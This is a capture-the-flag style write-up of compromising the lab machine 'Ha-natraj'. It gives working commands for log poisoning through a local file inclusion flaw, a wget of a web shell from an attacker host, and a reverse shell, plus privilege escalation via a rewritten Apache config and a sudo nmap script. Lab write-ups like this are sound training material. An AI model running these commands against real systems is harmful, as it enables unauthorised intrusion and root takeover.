


# Title Ha-natraj

**IP Address:** 192.168.76.80

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22    | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80    | http     | Apache httpd 2.4.29 ((Ubuntu)) |

## Exploitation
### Exploit Details (LFI)
* **Name** - LFI 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

**Execute Exploit**

The parameter http://192.168.76.80/console/file.php is vulnerable to LFI. We can use this to poison the SSH auth.log file

Commands
```bash
ssh '<?php system($_GET['cmd']); ?>'@$ip
curl "http://$ip/console/file.php?file=/var/log/auth.log&cmd=wget%20http%3A%2F%2F192.168.49.76%2Fshell.php"
curl "http://$ip/console/shell.php"
python3 -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat /var/www/local.txt
ifconfig
```




## Privilege Escalation (mahakal)
### Exploit Details (Sudo Rights)
* **Name** - Sudo Rights (Apache)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The www-data account has both permissions to restart the Apache service and also permissions to edit the /etc/apache2/apache2.conf file. We can leverage this to change the account that Apache runs as and invoke a shell using this account. 

1. Edit the /etc/apache2/apache2.conf file and set the User & Group options to both be mahakal and save the changes. 


2. Then we just need to restart the apache2 service and invoke the shell. This will automatically close the connection to our shell. Then rerun the curl command to invoke the shell again. Be sure to setup the netcat listener again so it can catch the shell as mahakal


```bash
sudo /bin/systemctl restart apache2
curl "http://$ip/console/shell.php"
python3 -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat /var/www/local.txt
ifconfig
```

## Privilege Escalation (Root)
### Exploit Details (Sudo Rights)
* **Name** - Sudo Rights (nmap)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A
  
Commands
```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
whoami
cat /root/proof.txt
ifconfig
```
